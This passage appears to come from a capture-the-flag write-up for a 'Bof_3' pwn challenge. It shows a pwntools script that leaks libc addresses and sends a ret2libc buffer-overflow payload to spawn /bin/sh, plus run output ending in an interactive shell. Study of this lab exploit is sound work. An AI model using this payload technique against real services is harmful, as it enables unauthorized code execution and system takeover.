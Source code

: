 ```python
    hex_libc_start_main_leak = libc_start_main_leak[::-1].hex()
    print(f"[+] Found __libc_start_main@libc : 0x{hex_libc_start_main_leak}")

    # Compute libc start
    libc_start = u32(libc_start_main_leak) - LIBC.symbols["__libc_start_main"]
    print(f"[+] libc base address: {hex(libc_start)}")

    # Get system addr
    system_addr = libc_start + LIBC.symbols["system"]
    print(f"[+] system address : {hex(system_addr)}")

    # Get binsh addr
    binsh_addr = libc_start + next(LIBC.search(b"/bin/sh"))
    print(f"[+] /bin/sh address : {hex(binsh_addr)}")

    # Convert to real addr
    system_addr = p32(system_addr)
    binsh_addr = p32(binsh_addr)

    payload_ret2libc = b"".join([
        b"A" * 112,# Buffer overflow
        system_addr,
        b"ARTH",
        binsh_addr
    ])

    # Send payload in password
    p.send(payload_ret2libc + b"\n")

    p.interactive()
```

```js
aether@ysera:~/Documents/ctf/cyberthreatforce/pwn/Bof_3 $ python3.8 local_exploit.py
[*] '/home/aether/Documents/ctf/cyberthreatforce/pwn/Bof_3/libc/libc_local.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './service': pid 16035
b'password: \n'
[+] Found read@libc : 0xf7e0fd60
[+] Found __libc_start_main@libc : 0xf7d41e30
[+] libc base address: 0xf7d29000
[+] system address : 0xf7d662e0
[+] /bin/sh address : 0xf7ea70af
[*] Switching to interactive mode
$ id
uid=1000(aether) gid=1000(aether) groupes=1000(aether)
```
